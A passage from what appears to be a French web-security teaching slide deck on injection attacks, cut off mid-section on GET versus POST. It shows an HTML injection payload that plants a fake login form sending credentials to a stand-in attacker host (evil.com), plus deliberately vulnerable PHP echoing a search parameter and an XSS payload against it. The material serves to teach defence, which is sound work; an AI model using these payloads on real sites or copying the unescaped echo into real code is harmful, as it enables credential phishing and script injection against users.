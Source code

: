 --------------------------------------------------------------------------------

## Injection - HTML

Pas grave? essayez:

    !html
    " ><div class="big-overlay"></form>
    <form method="POST" action="http://www.evil.com">
      <p class="secure">Please re-enter you credentials</p>
      <label>Login:</label>
        <input type="text">
      <label>Mot de passe:</label>
        <input type="password">
    </div>
    <foo "

Et vous avez un formulaire de login en popup, détourné vers un autre site.

--------------------------------------------------------------------------------

## Injection - Javascript

    !html
    <input type="text" name="search" value="<? echo $_GET['search']; ?>">

Entrez ceci:

    !html
     What?" onLoad="alert('xss');"><input type="checkbox

Et le résultat::

    !html
    <input type="text" name="search" value="What?"
     onLoad="alert('xss');">
    <input type="checkbox">

En javascript on peut faire **TOUT** ce qui est imaginable en HTML, et **plus encore**. Détourner du contenu, poster des requêtes de façon transparentes, charger d'autres sources javascript depuis d'autres sites, etc.

Le **XSS** (Cross Site Scripting) est votre pire ennemi.

Les moteurs de **recherches** dans les sites et les codes 'SEO' sont très souvent sensibles.

--------------------------------------------------------------------------------

## Injection - HTTP

### GET et POST : ce n'est pas la même chose

Ils sont tous les deux manipulables, de ce point de vue là, pas de différences. Mais:

> GET est **indempotent**
